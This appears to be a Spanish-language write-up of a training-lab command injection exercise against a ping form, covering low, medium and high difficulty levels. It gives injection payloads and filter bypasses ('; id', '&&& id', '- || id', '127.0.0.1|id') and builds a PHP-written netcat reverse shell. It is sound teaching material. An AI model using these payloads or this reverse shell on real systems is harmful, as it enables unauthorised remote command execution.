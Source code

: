 # Command Injection

La vulnerabilidad de inyección de comandos es una vulnerabilidad de seguridad que permite a un atacante ejecutar comandos arbitrarios en el sistema operativo del servidor. Esto puede conducir a la ejecución de comandos arbitrarios en el sistema operativo del servidor.

## Bajo

El planteamiento seguido ha sido el de ejecutar un comando después de otro, para ello, hemos completado el `ping -c 4` con una ip y a continueación hemos añadido la sentencia `; id` para mostrar el usuario que ejecuta el servicio web.

```bash
127.0.0.1 > /dev/null; id
```

![challenge](/CI/assets/challenge.png)

## Medio

Para este nivel, vemos que entradas como las siguientes no funcionan, esto es debido a que el servidor esta eliminando expresiones como `;` y `&&`.

```bash
127.0.0.1 > /dev/null; id
127.0.0.1 > /dev/null && id
```

Sin embargo, podemos aprovechar que la implementación no es segura y con alguna pequeña modificación podemos bypassear la protección.

$$
num\& = 2n + 3, n\in \mathbb{N}
$$
```bash
127.0.0.1 > /dev/null &&& id
```

Además, otra de las multiples posibilidades es utilizar el operador `||` para ejecutar el comando `id` si el comando anterior falla. Para ello se fuerza el fallo colocando una cadena invalida `-`.

```bash
- || id
```

![challenge](/CI/assets/challenge.png)

--- 

### Reverse shell

El primer paso es crear un servidor de escucha en el puerto 4000.

```bash	
nc -lvnp 4000
```

El siguiente paso es crear un archivo php que ejecute el comando `nc` para establecer una conexión con el servidor de escucha.

```bash
- || echo '<?php system("nc 127.0.0.1 4000 -e /bin/bash"); ?>' > shell.php
```

Por último, se ejecuta el archivo php para obtener una shell.

```bash
- || php shell.php
```

Como parte opcional se puede utilizar el siguiente comando para obtener una shell interactiva.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

![shell](/CI//assets/reverse-shell.png)

## Alto

En este nivel, vemos que el servidor esta filtrando la entrada de comandos, por lo que no podemos ejecutar comandos arbitrarios. Sin embargo, al probar el comando utilizado para el nivel medio, vemos que el servidor esta fallando al filtrar la entrada.

```bash
- || id
```

Se ha detectado otra brecha al escribir el siguiente comando sin ningún espacio.

```bash
127.0.0.1|id
```

![challenge](/CI/assets/challenge.png)


